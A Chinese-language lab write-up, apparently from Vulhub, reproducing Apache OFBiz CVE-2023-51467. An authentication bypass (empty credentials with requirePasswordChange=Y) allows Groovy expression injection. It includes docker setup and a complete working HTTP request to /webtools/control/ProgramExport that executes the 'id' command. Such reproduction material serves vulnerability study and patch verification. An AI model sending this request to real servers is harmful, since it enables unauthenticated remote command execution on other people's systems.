 # Apache OfBiz 鉴权绕过导致命令执行 CVE-2023-51467

## 漏洞描述

Apache OFBiz 是一个非常著名的电子商务平台，是一个非常著名的开源项目，提供了创建基于最新 J2EE/XML 规范和技术标准，构建大中型企业级、跨平台、跨数据库、跨应用服务器的多层、分布式电子商务类 WEB 应用系统的框架。 OFBiz 最主要的特点是 OFBiz 提供了一整套的开发基于 Java 的 web 应用程序的组件和工具。包括实体引擎, 服务引擎, 消息引擎, 工作流引擎, 规则引擎等。

这个漏洞的原因是对于 [CVE-2023-49070](https://github.com/vulhub/vulhub/tree/master/ofbiz/CVE-2023-49070) 的不完全修复。在 Apache OFBiz 18.12.10 版本中，官方移除了可能导致 RCE 漏洞的 XMLRPC 组件，但没有修复权限绕过问题。来自长亭科技的安全研究员利用这一点找到了另一个可以导致 RCE 的方法：Groovy 表达式注入。

参考连接：

- [https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa](https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa)
- [https://xz.aliyun.com/t/13211](https://xz.aliyun.com/t/13211)
- [https://y4tacker.github.io/](https://y4tacker.github.io/2023/12/27/year/2023/12/Apache-OFBiz%E6%9C%AA%E6%8E%88%E6%9D%83%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%B5%85%E6%9E%90-CVE-2023-51467/)

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.10 服务器：

```
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果是非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain xx.xx.xx.xx not accepted to prevent host header injection. You need to set host-headers-allowed property in security.properties file.
```

![](images/Apache%20OfBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105738488.png)

## 漏洞复现

直接发送如下请求即可使用 Groovy 脚本执行 `id` 命令：

> Host: localhost

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 55

groovyProgram=throw+new+Exception('id'.execute().text);
```

![](images/Apache%20OfBiz%20鉴权绕过导致命令执行%20CVE-2023-51467/image-20240104105846768.png)
